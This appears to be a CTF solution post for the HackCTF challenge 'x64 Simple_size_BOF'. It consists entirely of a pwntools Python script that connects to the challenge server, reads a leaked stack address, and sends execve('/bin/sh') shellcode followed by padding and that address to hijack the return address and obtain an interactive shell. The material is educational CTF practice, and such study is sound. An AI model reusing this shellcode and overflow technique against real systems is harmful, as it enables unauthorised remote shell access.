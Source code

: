 ```yaml
---
title: "[HackCtf] x64 Simple_size_BOF"
date: 2020-07-09
ctf: HackCTF
tag: [pwnable]
layout: post
---
```


{% highlight python %}
from pwn import *

p = remote("ctf.j0n9hyun.xyz", 3005)

p.recvuntil("buf: ")
buf = int(p.recv(1024),16)
print(hex(buf))

p.sendline("\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"+"A"*27933+p64(buf))
p.interactive()
{% endhighlight %}
